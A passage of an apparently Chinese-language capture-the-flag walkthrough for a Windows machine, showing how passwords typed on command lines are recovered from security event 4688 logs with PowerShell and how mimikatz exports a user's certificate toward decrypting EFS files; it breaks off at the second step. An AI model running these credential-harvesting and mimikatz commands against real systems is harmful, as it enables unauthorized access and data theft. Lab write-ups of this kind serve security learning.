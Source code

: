 这里找到了所有命令行信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXKJdKDnG2RicOzuZuiamtyZNic9mI8UDib4pfiac5MCvWSKLyCaeETraDxyQ/640?wx_fmt=png)

```
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} | Get-WinEventData | Select TimeCreated, e_CommandLine | ft -autosize -wrap
```

通过 e_CommandLine 命令行查找到了所有命令行的日志记录... 其中包含了敲打过的密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXY9Od27GjHWkPIrggDeNMJFIqJcEJxyJoJKf18xoVPCSCPdLA5raW3A/640?wx_fmt=png)

可以看到 tolu 在 Remote Management Users 本地组中...

这里利用密码使用 tolu 登陆查看 user 信息，还是无法查看...

这里 google 发现

```
[EFS](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files)
```

解密思路... 参考  

![](https://mmbiz.qpic.cn/mmbiz_png/gOGib2VkpLWkbtKmMsQqySMxAsrxHvBeChSJUKPDZTQH3Gde0ayHZZrpyZNH0ibCdnibeicWkNf9sQ9ldtYghV6EUA/640?wx_fmt=png)

User.txt 获取

![](https://mmbiz.qpic.cn/mmbiz_png/VHdxGs4QuYyTh2Ph5K8FUYeMSJgG10R6UvAkBSAhsibgPr3lEDRbtNqZKEuMkIHTcB9sm1tjN38OW3gSoLFfDlA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FRKzajjicJGp8Ljeuvd1c8haJLU6BUSTlxUsMxprmqibiaPIs72ByzBEZJuxntmmia0SMtaShx0Yzsa3B8bUS3JAibA/640?wx_fmt=png)

方法 1：

![](https://mmbiz.qpic.cn/mmbiz_png/qI9LT8kbvPP6zO2T1icrJiaBGOgdK9EzicmwyCwyYDS6XtvhmdO4ecfEAejEde70EolLMuPL6oHFTfnBgfylpicHug/640?wx_fmt=png)

请参考上面链接方法进行！

第一步：获取证书

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXiaMWr3ZOicrw1mYXBhh0Q1gniat22SjQH8JEYbUibxjhQGzsbJ3DVvPcyg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXX329j6sKP1jAuCuKOSTFzhhvvubHicUVUmBLlGq59iclQSic6CKaam4EA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXOE0ktPsgvDicSUGnLf2BxbclHuLqXia32Ydo8E61EdkicduQCicpVwN88w/640?wx_fmt=png)

```
.\mimikatz.exe "crypto::system /file:C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\91EF5D08D1F7C60AA0E4CEE73E050639A6692F29 /export" "exit"
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXmUtcnqLYkrAbicVauQcD0kaicjpeWjKsXMZuFOUF1UmH844WLsO04P5Q/640?wx_fmt=png)

通过 mimikatz 获得了 certificate...

第二步：解密万能密匙
